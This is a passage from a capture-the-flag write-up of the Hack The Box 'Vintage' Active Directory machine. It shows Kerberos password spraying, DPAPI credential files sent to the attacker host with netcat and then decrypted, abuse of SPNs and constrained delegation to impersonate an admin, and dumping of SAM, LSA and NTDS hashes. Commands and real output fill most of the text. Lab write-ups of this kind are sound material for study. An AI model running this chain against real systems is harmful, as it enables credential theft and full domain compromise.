└─$ ~/opt/05_password_attacks/kerbrute/kerbrute passwordspray usernames.txt 'Zer0the0ne' --dc dc01.vintage.htb -d vintage.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/01/24 - Ronnie Flathers @ropnop

2024/12/01 11:47:55 >  Using KDC(s):
2024/12/01 11:47:55 >   dc01.vintage.htb:88

2024/12/01 11:47:55 >  [+] VALID LOGIN:  SVC_SQL@vintage.htb:Zer0the0ne
2024/12/01 11:47:55 >  [+] VALID LOGIN:  C.NERI@vintage.htb:Zer0the0ne
2024/12/01 11:47:55 >  Done! Tested 15 logins (2 successes) in 0.133 seconds
```

| Username | Password   |
| -------- | ---------- |
| c.neri   | Zer0the0ne |

### Configure Kerberos Realm

Now as final step to get our foot onto the box we needed to configure the `Kerberos Realm` on our local machine.

```c
┌──(kali㉿kali)-[~]
└─$ head -26 /etc/krb5.conf
[libdefaults]
        default_realm = VINTAGE.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        ATHENA.MIT.EDU = {
                kdc = kerberos.mit.edu
                kdc = kerberos-1.mit.edu
                kdc = kerberos-2.mit.edu:88
                admin_server = kerberos.mit.edu
                default_domain = mit.edu
        }
        VINTAGE.HTB = {
                kdc = vintage.htb
                admin_server = dc01.vintage.htb
        }
```

And of course we grabbed a `Kerberos ticket`for `C.NERI` to authenticate using `Evil-WinRM` and the previously configured `Kerberos Realm`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/c.neri:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=c.neri.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ evil-winrm -i dc01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents>
```

## user.txt

Finally we could grab the `user.txt`.

```c
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
c14e21ef594d4329cdd73c035eda0ed1
```

## Enumeration

A quick look onto the `permissions` didn't served us very useful information.

```c
*Evil-WinRM* PS C:\Users\C.Neri\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
vintage\c.neri S-1-5-21-4024337825-2033394866-2055507597-1115


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
VINTAGE\ServiceManagers                     Group            S-1-5-21-4024337825-2033394866-2055507597-1137 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to c.neri_adm
### Dumping Data Protection API (DPAPI)

After quite some time of `enumeration` we found ourselves in the approach of attacking the `Data Protection API (DPAPI)` in order to eventually get some `credentials` out of it to `escalate our privileges` to `C.NERI_ADM`.

According to the `research` by `SYNACKTIV` we started downloading the required files to attacking `DPAPI` locally. The reason for this step was the box which cleared every of our files dropped onto disk besides for example `netcat`.

- [https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary)

```c
C:\>dir /a:h C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials\
dir /a:h C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials\
 Volume in drive C has no label.
 Volume Serial Number is B8C0-0CD3

 Directory of C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials

06/07/2024  05:08 PM               430 C4BB96844A5C9DD45D5B6A9859252BA6
               1 File(s)            430 bytes
               0 Dir(s)   5,477,105,664 bytes free
```

```c
PS C:\> Get-ChildItem C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ nc -lnvp 9996 > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
listening on [any] 9996 ...
```

```c
C:\temp>.\nc64.exe 10.10.14.40 9996 < C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ nc -lnvp 9996 > C4BB96844A5C9DD45D5B6A9859252BA6    
listening on [any] 9996 ...
```

```c
C:\temp>.\nc64.exe 10.10.14.40 9996 < C:\Users\C.Neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6
```

After downloading the files we started the process of extracting the `Masterkey` and finally `decrypting` the `data blob`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b                                 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

[MASTERKEY]
Version     :        2 (2)
Salt        : b'ea8efcf1920c361692a5b9125f4982d3'
Rounds      :     4650 (18000)
HashAlgo    : 00008009 (32777) (CALG_HMAC)
CryptAlgo   : 00006603 (26115) (CALG_3DES)
data        : b'100cf595fa67fe344582ff682f9dc3f0f9a1aed631804de7acf0817617e10ac021be03b49a0cdbbcd680cc72809dfa4a94871c740624c813b3a9d937953fd6aec3048a5096c5a4d798e9994152d9ccc249cb8ff42f9d19d613fa9e8059bdcbecf6543ea3431ea651'

[MASTERKEY]
Version     :        2 (2)
Salt        : b'b1711d775c39e61b7cde82b187956986'
Rounds      :     4650 (18000)
HashAlgo    : 00008009 (32777) (CALG_HMAC)
CryptAlgo   : 00006603 (26115) (CALG_3DES)
data        : b'6212d109780569838400d259d4cc0b1fea4a0fb5c725d68b3dc99ae3d604c073fa129a104d3c4137fd55553d9c3d83734fdba5a3def3b7e883a6b6c5d6600064ba49a28eb49a0195'

[DOMAINKEY]
Version       :        2 (2)
Guid          : 709FDAA7-E5FE-45D4-B453-555506F0D4F0
SecretLen     :      100 (256)
AccessCheckLen: 00000058 (88)
SecretData    : b'af60457f46b40e174cf09ca6070c3a9b342df2d56c4db0e6099fee66eddbcce00e51738368668938e2aa466d96f2b1cf399dbb623b43d69774305243a1c349c1d84de69c13773dafd89b2b555544dfadf36635c779779f86e2f900cc0c42bea0a53b0219cc6b775ce24cdf50d651fd42d9d813b39995bad93e18963b6bef757f9441c2a5829c5c4862da7332f9dff5095ebbedf61b9e467f985f19caf9f8b26748268cc94ffb2bb13a2292bc733f513e8d9ae61ec2702942b3813b70391755ca1e0b87293f954b5f3bb81bbf4ced594f8fc2aec2b0b35686ec49085e144acc482e900c27e6766553a61a00375e4110f3091d43d32709285c99778404d4db7a29'
AccessCheck   : b'b82bfae91b8aeaf004977f0f56b7f96582c3e4b638954707daaa95c5b5d6178977ebfd7867b559febf3d80afcb258cb2fbac17c5d4b3080a41b907f36d6fb1cc8d989583c0ca65cbf66f7a594ab86435fece6056a52400b4'

Cannot decrypt (specify -key or -sid whenever applicable)
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[BLOB]
Version          :        1 (1)
Guid Credential  : DF9D8CD0-1501-11D1-8C7A-00C04FC297EB
MasterKeyVersion :        1 (1)
Guid MasterKey   : 99CF41A3-A552-4CF7-A8D7-ACA2D6F7339B
Flags            : 20000000 (CRYPTPROTECT_SYSTEM)
Description      : Enterprise Credential Data

CryptAlgo        : 00006603 (26115) (CALG_3DES)
Salt             : b'd96c9e1f6e661470335c5cffc08d070c'
HMacKey          : b''
HashAlgo         : 00008004 (32772) (CALG_SHA)
HMac             : b'2becd14c5eeff9b3c0d5449c1b608be2'
Data             : b'68c9a525f2cff52754da6e479990fd55be3ce56dc43ad688dd2d0a64b3b434fe2ac428c9a514e27f65ada8f1a905cf7912dbc1c478d1a483fde418d3af8556e76763494074c9d764a08c5b80b8f85d4bd39bd82bea5bdc6eee90c65cfb790072aa96a472f9f6a38dc1189063f4922eac2c117fae916742f450f610a0f2256acaadc1a52770399d61d19c61f266ef0cfbfe5c7c3dfa8e8369b6627dd7e3f86b8c462f860cd2efbfca2b614a8767a8473b7bc1e240eee53e06f10b0802d50b06cdd5db0c351bbc5d188e7b0462a2e0b124ea4b9a116a29b027e5b1ce452b86b8c4'
Sign             : b'528c8ad728c207dea6f30d2ae73cc5330b286400'

Cannot decrypt (specify -key or -sid whenever applicable)
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -password Zer0the0ne -sid S-1-5-21-4024337825-2033394866-2055507597-1115 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Finally we got the `password` for `C.NERI_ADM`!

```c
┌──(kali㉿kali)-[/media/…/Machines/Vintage/files/dpapi]
└─$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

| Username   | Password                |
| ---------- | ----------------------- |
| c.neri_adm | Uncr4ck4bl3P4ssW0rd0312 |

## Privilege Escalation to SYSTEM

The final step to own the box required some quick timing. The idea was to set a `SPN` again on `SVC_SQL` and then to add him to the `DELEGATEDADMINS@VINTAGE.HTB` group.

From there on we would requested an `Kerberos ticket` to abuse the `SPN` of `DC01` to `impersonate` the user `L.BIANCHI_ADM` to then request another `Kerberos ticket` and finally perform a `DCSync`.



We started as `C.NERI.`

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=c.neri.ccache
```

Then we set the `SPN` for `SVC_SQL` and requested a `Kerberos ticket` for `C.NERI_ADM`

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -k set object 'svc_sql' servicePrincipalName -v 'cifs/svc_sql'
[+] svc_sql's servicePrincipalName has been updated
```

Next we requested a new `Kerberos Ticket` as `C.NERI_ADM` to switch context.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri_adm.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=c.neri_adm.ccache
```

We added `SVC_SQL` to the group `DELEGATEDADMINS` and requested a ticket for the account.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.129.124.159 -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'
[+] SVC_SQL added to DELEGATEDADMINS
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/svc_sql:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=svc_sql.ccache
```

From there on we were able to `impersonate` `L.BIANCHI_ADM` and request a ticket.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getST -spn cifs/dc01.vintage.htb -impersonate 'l.bianchi_adm' -k -no-pass vintage.htb/svc_sql
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating l.bianchi_adm
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in l.bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=l.bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

Finally we dumped all the `hashes` and got access to the box as `L.BIANCHI_ADM` and grabbed the `root.txt`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ netexec smb dc01.vintage.htb --use-kcache
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\l.bianchi_adm from ccache (Pwn3d!)
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ netexec smb dc01.vintage.htb --use-kcache --sam --lsa --dpapi
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\l.bianchi_adm from ccache (Pwn3d!)
SMB         dc01.vintage.htb 445    dc01             [*] Dumping SAM hashes
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:e41bb21e027286b2e6fd41de81bce8db:::
SMB         dc01.vintage.htb 445    dc01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc01.vintage.htb 445    dc01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[08:31:49] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         dc01.vintage.htb 445    dc01             [+] Added 3 SAM hashes to the database
SMB         dc01.vintage.htb 445    dc01             [+] Dumping LSA secrets
SMB         dc01.vintage.htb 445    dc01             VINTAGE\DC01$:plain_password_hex:ca385c025f7b81712d83d60e6c6ac2c6787e877114fe8342bd9b496572c6e1f3d2c82dee411d9bbdb6dc1eb7981bea8a7faa98d2b6efab8b3a90f85d48a3ec66c5f2b4c6d2d4ca747927ab1efd025f66a8e6914917e5d1e6112c7f2a668129ae0303f41f6b0b6c01219c09522da4f5cf9050bed3954973f14a4ff49a12f64d570d6cbd466b81c2ec86c0758213f35cf6db976b25aac295fe3e3953ca30cbe3afc9677d932d95cca63da09ad700abc22a9836ddb44de0be762f12f46eba649b293794f50a946898d1a786dfcac9582bd20e8fd21a9678d1e2d82b7bf3dec2f03bf67ab63d73ec4b34968678a77c3f6106                                                                                                                                              
SMB         dc01.vintage.htb 445    dc01             VINTAGE\DC01$:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
SMB         dc01.vintage.htb 445    dc01             dpapi_machinekey:0x329e3f315c1e7294f086908d3d14c990c030305a
dpapi_userkey:0x2bd12147462ab2b6e92adcb202c9d8258c270790
SMB         dc01.vintage.htb 445    dc01             NL$KM:7ef465544c71041d24fc9bed7b0db11bf0e60ebfef1378c104489fae464939a5d6a994e1cc13fb7d290200c1f8cd61f38c6d56421e8b3a92e18ee03c6e7704bc
SMB         dc01.vintage.htb 445    dc01             [+] Dumped 4 LSA secrets to /home/kali/.nxc/logs/dc01_dc01.vintage.htb_2024-12-04_083142.secrets and /home/kali/.nxc/logs/dc01_dc01.vintage.htb_2024-12-04_083142.cached
SMB         dc01.vintage.htb 445    dc01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         dc01.vintage.htb 445    dc01             [+] Got 6 decrypted masterkeys. Looting secrets...
SMB         dc01.vintage.htb 445    dc01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{C880A25A-72A4-41E7-ACA6-B3E33D2DA500} - VINTAGE\Administrator:Kekkerolli123
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ netexec smb dc01.vintage.htb --use-kcache --ntds             
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\l.bianchi_adm from ccache (Pwn3d!)
SMB         dc01.vintage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
SMB         dc01.vintage.htb 445    dc01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc01.vintage.htb 445    dc01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be3d376d906753c7373b15ac460724d8:::
SMB         dc01.vintage.htb 445    dc01             M.Rossi:1111:aad3b435b51404eeaad3b435b51404ee:8e5fc7685b7ae019a516c2515bbd310d:::
SMB         dc01.vintage.htb 445    dc01             R.Verdi:1112:aad3b435b51404eeaad3b435b51404ee:42232fb11274c292ed84dcbcc200db57:::
SMB         dc01.vintage.htb 445    dc01             L.Bianchi:1113:aad3b435b51404eeaad3b435b51404ee:de9f0e05b3eaa440b2842b8fe3449545:::
SMB         dc01.vintage.htb 445    dc01             G.Viola:1114:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
SMB         dc01.vintage.htb 445    dc01             C.Neri:1115:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
SMB         dc01.vintage.htb 445    dc01             P.Rosa:1116:aad3b435b51404eeaad3b435b51404ee:8c241d5fe65f801b408c96776b38fba2:::
SMB         dc01.vintage.htb 445    dc01             svc_sql:1134:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
SMB         dc01.vintage.htb 445    dc01             svc_ldap:1135:aad3b435b51404eeaad3b435b51404ee:458fd9b330df2eff17c42198627169aa:::
SMB         dc01.vintage.htb 445    dc01             svc_ark:1136:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
SMB         dc01.vintage.htb 445    dc01             C.Neri_adm:1140:aad3b435b51404eeaad3b435b51404ee:91c4418311c6e34bd2e9a3bda5e96594:::
SMB         dc01.vintage.htb 445    dc01             L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:0a388664a600bb330c355f4ff40f5b82:::
SMB         dc01.vintage.htb 445    dc01             DC01$:1002:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
SMB         dc01.vintage.htb 445    dc01             gMSA01$:1107:aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53:::
SMB         dc01.vintage.htb 445    dc01             FS01$:1108:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
SMB         dc01.vintage.htb 445    dc01             [+] Dumped 17 NTDS hashes to /home/kali/.nxc/logs/dc01_dc01.vintage.htb_2024-12-04_083308.ntds of which 14 were added to the database
SMB         dc01.vintage.htb 445    dc01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc01.vintage.htb 445    dc01             [*] cat /home/kali/.nxc/logs/dc01_dc01.vintage.htb_2024-12-04_083308.ntds | grep -iv disabled | cut -d ':' -f1
SMB         dc01.vintage.htb 445    dc01             [*] grep -iv disabled /home/kali/.nxc/logs/dc01_dc01.vintage.htb_2024-12-04_083308.ntds | cut -d ':' -f1
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ impacket-getTGT vintage.htb/l.bianchi_adm@dc01.vintage.htb -hashes :0a388664a600bb330c355f4ff40f5b82
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in l.bianchi_adm@dc01.vintage.htb.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ export KRB5CCNAME=l.bianchi_adm@dc01.vintage.htb.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Vintage/files]
└─$ evil-winrm -i dc01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Documents>
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
469bd68564f60e05a70f54647f4f0e27
```
